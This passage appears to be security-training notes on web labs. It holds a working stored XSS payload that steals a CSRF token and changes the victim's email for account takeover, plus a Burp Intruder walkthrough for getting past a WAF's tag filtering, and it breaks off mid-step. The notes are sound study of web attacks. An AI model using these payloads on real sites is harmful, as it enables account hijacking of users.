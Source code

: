 ### Exploiting cross-site scripting to perform CSRF
Some websites allow logged-in users to change their email address without re-entering their password. If you've found an XSS vulnerability, you can make it trigger this functionality to change the victim's email address to one that you control, and then trigger a password reset to gain access to the account. 

Submit e.g. a comment with the following payload.
(This will make anyone who views the comment issue a POST request to change their email address to test@test.com)
```bash
<script>
fetch('/my-account')
.then((res) => {
	return res.text()
})
.then((res2) => {
	const csrfLength = 32;
	const pattern = '<input required type="hidden" name="csrf" value="';
    const indexStart = res2.indexOf(pattern);

	const start = indexStart + pattern.length
	const end = start + csrfLength
	const csrf = res2.slice(start, end)

	fetch('/my-account/change-email', {
		method: "POST",
		headers: {
      'Content-Type': 'application/x-www-form-urlencoded',
    },
		body: `email=fff%40aba333.com&csrf=${csrf}`
	})
})
</script>
```

### Lab: Reflected XSS into HTML context with most tags and attributes blocked
This lab contains a reflected XSS vulnerability in the **search functionality** but uses a web application firewall (WAF) to protect against common XSS vectors.

For a successful XSS attack we need to figure out:
- which html tags are blocked by firewall
- which events are blocked by firewall
To find that out, we can either use Burp Intruder or `bf` script written in go (in this xss folder)

There's a great step by step explanation of how to search for vulnerabilities in the Lab's `Solution`:

1. Inject a standard XSS vector, such as:
```
<img src=1 onerror=print()>
```
2. Observe that this gets blocked. In the next few steps, we'll use Burp Intruder to test which tags and attributes are being blocked.
3. Open Burp's browser and use the search function in the lab. Send the resulting request to Burp Intruder.
4. In Burp Intruder, in the Positions tab, replace the value of the search term with: `<>`
5. Place the cursor between the angle brackets and click "Add §" twice, to create a payload position. The value of the search term should now look like: `<§§>`
6. Visit the XSS cheat sheet and click "Copy tags to clipboard".
7. In Burp Intruder, in the Payloads tab, click "Paste" to paste the list of tags into the payloads list. Click "Start attack".
8. When the attack is finished, review the results. Note that all payloads caused an HTTP 400 response, except for the body payload, which caused a 200 response.
9. Go back to the Positions tab in Burp Intruder and replace your search term with: